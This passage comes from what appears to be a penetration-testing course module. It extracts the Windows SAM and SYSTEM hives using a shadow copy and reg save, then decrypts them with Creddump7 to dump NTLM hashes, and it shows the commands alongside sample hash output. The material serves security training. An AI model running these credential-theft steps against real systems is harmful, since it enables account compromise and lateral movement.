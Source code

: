 ```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
        1 file(s) copied.
```

> Listing 7 - Shadow copying the SYSTEM file

We can also obtain a copy of the SAM database and SYSTEM files from the registry in the HKLM\sam and HKLM\system hives, respectively. Administrative permissions are required to read and copy.

For example, we'll use the reg save[13](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_501-13) command to save the content to the hard disk by specifying the registry hive and the output file name and path:

```
C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
The operation completed successfully.

C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
The operation completed successfully.
```

> Listing 8 - Saving SAM and SYSTEM from the registry

Regardless of how we obtain the SAM database and SYSTEM file, we must decrypt them. At the time of writing, the only two tools that can decrypt these files are _Mimikatz_ and _Creddump7_.[14](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_501-14) In this example, we'll use Creddump.

First, we'll install the _python-crypto_ library, and then clone Creddump from the GitHub repository with git clone:

```
kali@kali:~$ sudo apt install python-crypto
Reading package lists... Done
Building dependency tree       
Reading state information... Done
...

kali@kali:~$ sudo git clone https://github.com/Neohapsis/creddump7
Cloning into 'creddump7'...
remote: Enumerating objects: 73, done.
remote: Total 73 (delta 0), reused 0 (delta 0), pack-reused 73
Unpacking objects: 100% (73/73), done.
```

> Listing 9 - Download Creddrump7 project

Next, we'll copy the SAM and SYSTEM files from the Windows 10 victim machine to our Kali Linux machine and use the pwdump.py python script from Creddrump7 to decrypt the NTLM hashes as shown in Listing 10.

```
kali@kali:~$ cd creddump7/

kali@kali:~/creddump7$ python pwdump.py /home/kali/system /home/kali/sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6178f16bccb14659f6c5228b070e0bf:::
```
